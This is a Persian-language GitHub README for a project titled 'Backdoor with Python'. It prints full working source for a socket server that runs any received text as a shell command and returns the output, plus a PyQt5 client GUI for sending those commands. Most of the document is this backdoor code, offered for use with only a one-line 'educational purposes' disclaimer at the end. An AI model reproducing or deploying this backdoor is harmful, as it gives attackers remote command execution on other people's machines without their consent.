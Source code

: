![OIG3 (2)](https://github.com/msade6h/backdoor-with-python/assets/94873023/e18cba33-fcc3-4647-85da-622ac67794be)


---

# بک دور با پایتون

این پروژه شامل دو قسمت اصلی است: یک سرور که برای اتصال‌های ورودی گوش می‌دهد و دستورات دریافتی را اجرا می‌کند، و یک کلاینت با رابط کاربری PyQt5 که به سرور متصل شده و دستورات را برای اجرا ارسال می‌کند. همچنین کلاینت خروجی دستورات اجرا شده را نمایش می‌دهد.

## امکانات

- اجرای دستورات از راه دور از طریق یک رابط کاربری ساده و کاربرپسند با PyQt5
- نمایش لحظه‌ای خروجی دستورات در برنامه کلاینت
- رابط کاربری آسان برای استفاده با ورودی متن برای دستورات و ناحیه نمایش برای نتایج
- سرور به درخواست‌های چندین کلاینت گوش می‌دهد و آن‌ها را مدیریت می‌کند

## نصب

### پیش نیازها

- Python 3.x
- PyQt5
- تنظیمات شبکه‌ای که ارتباط بین کلاینت و سرور را فراهم کند

### نصب PyQt5

شما می‌توانید PyQt5 را با استفاده از pip نصب کنید:

```bash
pip install PyQt5
```

## استفاده

### اجرای سرور

سرور به اتصال‌های ورودی بر روی هاست و پورت مشخص گوش می‌دهد. دستورات دریافتی را اجرا کرده و خروجی را به کلاینت ارسال می‌کند.

برای اجرای سرور، از دستور زیر استفاده کنید:

```bash
python server.py
```

**کد سرور:**

```python
import subprocess
import socket

def main():
    host = '192.168.0.4'
    port = 999
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(1)
    print(f"Listening on port {port}...")
    while True:
        conn, addr = s.accept()
        print(f"Connected to client: {addr[0]}:{addr[1]}")
        
        while True:
            try:
                command = conn.recv(1024).decode().strip()
                if not command:
                    break

                proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, error = proc.communicate()

                conn.sendall(output)
                conn.sendall(error)
            except Exception as e:
                conn.sendall(str(e).encode())

        conn.close()

if __name__ == "__main__":
    main()
```

### اجرای کلاینت

کلاینت به سرور متصل شده و یک رابط کاربری گرافیکی برای ارسال دستورات و نمایش نتایج ارائه می‌دهد.

برای اجرای کلاینت، از دستور زیر استفاده کنید:

```bash
python client.py
```

**کد کلاینت:**

```python
import sys
from PyQt5.QtWidgets import QApplication, QWidget, QVBoxLayout, QLineEdit, QPushButton, QTextEdit, QMessageBox
from PyQt5.QtCore import QThread, pyqtSignal
import socket

class ClientThread(QThread):
    output_signal = pyqtSignal(str)

    def __init__(self, host, port, command_input, parent=None):
        super().__init__(parent)
        self.host = host
        self.port = port
        self.command_input = command_input

    def run(self):
        self.conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.conn.connect((self.host, self.port))
        self.output_signal.emit("vasl shod !\n")
        
        while True:
            command = self.command_input.text()
            self.conn.send(command.encode())
            output_data = self.conn.recv(1024).decode()
            self.output_signal.emit(output_data)

class RemoteCommandExecutor(QWidget):
    def __init__(self):
        super().__init__()
        self.init_ui()

    def init_ui(self):
        self.setWindowTitle("Remote Command Executor")

        layout = QVBoxLayout()

        self.output_display = QTextEdit()
        self.output_display.setReadOnly(True)
        layout.addWidget(self.output_display)

        self.command_input = QLineEdit()
        layout.addWidget(self.command_input)

        self.send_button = QPushButton("Send Command")
        self.send_button.clicked.connect(self.send_command)
        layout.addWidget(self.send_button)

        self.setLayout(layout)

        self.host = '192.168.0.4'
        self.port = 999
        self.client_thread = ClientThread(self.host, self.port, self.command_input)
        self.client_thread.output_signal.connect(self.update_output)
        self.client_thread.start()

    def send_command(self):
        command = self.command_input.text()
        self.client_thread.conn.send(command.encode())
        self.command_input.clear()

    def update_output(self, output):
        self.output_display.append(output)

if __name__ == '__main__':
    app = QApplication(sys.argv)
    window = RemoteCommandExecutor()
    window.show()
    sys.exit(app.exec_())
```

## تصاویر
![1717540374372](https://github.com/msade6h/backdoor-with-python/assets/94873023/37c3e9e4-a3cd-489d-a4b7-6680fae4cf78)



*تصویری از رابط کاربری کلاینت برای اجرای دستورات از راه دور.*

## مشارکت

1. ریپازیتوری را فورک کنید.
2. یک شاخه جدید ایجاد کنید (`git checkout -b feature-branch`).
3. تغییرات خود را کامیت کنید (`git commit -am 'Add new feature'`).
4. به شاخه خود پوش کنید (`git push origin feature-branch`).
5. یک Pull Request جدید ایجاد کنید.

## مجوز

این پروژه تحت مجوز MIT منتشر شده است - برای جزئیات بیشتر فایل [LICENSE](Mateam.org) را ببینید.


## اعلان

این پروژه فقط برای مقاصد آموزشی است. لطفاً از آن به صورت مسئولانه و اخلاقی استفاده کنید.

---


